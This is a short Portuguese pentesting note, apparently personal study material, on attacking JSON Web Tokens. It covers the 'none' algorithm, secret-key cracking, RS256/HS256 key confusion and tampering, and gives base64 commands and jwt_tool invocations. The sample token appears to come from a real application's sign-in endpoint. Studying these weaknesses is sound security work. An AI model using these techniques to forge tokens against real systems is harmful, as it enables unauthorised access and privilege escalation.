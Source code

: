 JSON Web Tokens
========================

Fonte: <https://blog.intigriti.com/2021/07/27/hacker-tools-jwt_tool/?cn-reloaded=1>

Possiveis ataques JWT:

 - [Algorítmo "none"](JSON%20Web%20Tokens.md#NoneAlgorithm)
 - [Cracking the secret key](JSON%20Web%20Tokens.md#CrackingSecretKey)
 - [Public Key Confusion](JSON%20Web%20Tokens.md#PublicKeyConfusion)



## NoneAlgorithm

Exemplo de JWT:

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwczpcL1wvYXBpLWhtZy52ZW5kYXBwLmNvbS5iclwvdjFcL2F1dGhcL3NpZ24taW4iLCJpYXQiOjE2Nzk5Mjg5ODEsImV4cCI6MTY3OTkzMjU4MSwibmJmIjoxNjc5OTI4OTgxLCJqdGkiOiJZOEhLcU9LQ1ZYbTJrc3VDIiwic3ViIjo4MiwicHJ2IjoiNzE0NzAxYTZhYTFkYzM2ODI0Y2FhOGZkNDU3YzIyOTZhMGJjYWZkZSJ9.GEOEmIlxy7Oe_FtfqMSEnx-0RXnvTTXH8aHYxOZYnxc

Obter a primeira parte do JWT (todo o antes antes do primeiro ".") e executar o seguinte comando:

    echo eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9 | base64 -d
 
 ![qownnotes-media-OdvwTU](../../../media/qownnotes-media-OdvwTU.png)

Para obter o payload em texto claro, pegamos a segunda parte (tudo que tiver entre os dois ".") e executar o seguinte comando:

    echo eyJpc3MiOiJodHRwczpcL1wvYXBpLWhtZy52ZW5kYXBwLmNvbS5iclwvdjFcL2F1dGhcL3NpZ24taW4iLCJpYXQiOjE2Nzk5Mjg5ODEsImV4cCI6MTY3OTkzMjU4MSwibmJmIjoxNjc5OTI4OTgxLCJqdGkiOiJZOEhLcU9LQ1ZYbTJrc3VDIiwic3ViIjo4MiwicHJ2IjoiNzE0NzAxYTZhYTFkYzM2ODI0Y2FhOGZkNDU3YzIyOTZhMGJjYWZkZSJ9 | base64 -d
 
Vide imagem acima para demonstracao:

O ataque em si consiste em alterar a primeira parte do JWT conforme o seguinte comando :

    echo -n '{"typ":"JWT","alg":"None"}' | base64
 
![qownnotes-media-NCWQbQ](../../../media/qownnotes-media-NCWQbQ.png)

Depois, devemos considerar a alteracao do payload para obter algum tipo de esccalacao de privilegio ou algo assim, no entanto, vale ressaltar que basta removermos a ultima parte do JWT e disparar para verificar se a aplicacao acata a requisicao.

### JWT_TOOL

Com essa ferramenta podemos utilizar o seguinte comando (-X a):

    python jwt_tool.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwczpcL1wvYXBpLWhtZy52ZW5kYXBwLmNvbS5iclwvdjFcL2F1dGhcL3NpZ24taW4iLCJpYXQiOjE2Nzk5Mjg5ODEsImV4cCI6MTY3OTkzMjU4MSwibmJmIjoxNjc5OTI4OTgxLCJqdGkiOiJZOEhLcU9LQ1ZYbTJrc3VDIiwic3ViIjo4MiwicHJ2IjoiNzE0NzAxYTZhYTFkYzM2ODI0Y2FhOGZkNDU3YzIyOTZhMGJjYWZkZSJ9.GEOEmIlxy7Oe_FtfqMSEnx-0RXnvTTXH8aHYxOZYnxc" -X a





## CrackingSecretKey

    python3 jwt_tool.py <<JWT_TOKEN>> -C -d <<DICT_FILE>>

## PublicKeyConfusion


CVE-2016-10555


RS256 signs the token asymmetrically. It uses private key to sign the token and public key to verify the token.
In case of — ‘HS256’ — signs the token symmetrically. It uses same key to sign and verify the token. The HMAC key and RSA private key are secret, is not known to public but the RSA public key is known to public.

## Tampering JWT

    python3 jwt_tool.py <<JWT_TOKEN>> -T